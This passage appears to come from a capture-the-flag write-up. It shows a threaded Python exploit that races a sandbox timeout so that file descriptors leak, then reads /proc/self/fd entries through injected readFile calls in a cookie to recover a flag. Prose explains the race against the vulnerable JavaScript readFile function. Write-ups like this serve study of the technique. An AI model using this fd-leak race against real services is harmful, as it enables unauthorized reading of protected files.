 ```python

def read_flag(flag):
    order = ''
    for i in range(30):
        order += 'readFile`/proc/self/fd/{}`,'.format(i)
    order = order[:-1]

    COOKIES = {
        'order': order,
        'passwd': passwd,
        'uid': uid
    }

    r = requests.get(url=checkout_url, cookies=COOKIES)

    try:
        if r.json()['error']:
            print("Trying again!")
    except (TypeError, requests.exceptions.JSONDecodeError) as e:
        if "nland" in r.text:
            r = r.text.split('\\n')[1]
            flag[0] = r


flags = ['failed']
flag = ['failed']

while "nland" not in flag:
    t1 = threading.Thread(target=create_fd)
    t2 = threading.Thread(target=read_flag, args=(flags,))
    t1.start()
    t2.start()
    t1.join()
    t2.join()
    flag = flags[0]
    sleep(1.0)

print(flag)
```

The start of the script registers a new user and logs into it and creates the uid cookie in scientific notation. The second part then sends the requests to retrieve the flag.
The `readFile` function reads the file specified by path through `fs.readFileSync(path)`. This function creates a file descriptors, reads the file and closes the file descriptors. If we call the `readFile` function multiple times during a run in the sandbox, the timeout will eventually run out. If this happens at the exact same time as the file descriptor is still open, it won't get closed.

```js
readFile: (path) => {
    path = new String(path).toString()
    if(fs.statSync(path).size == 0)
        return null
    let r = fs.readFileSync(path)
    if(!path.includes('flag'))
        return r
    return null
}
```

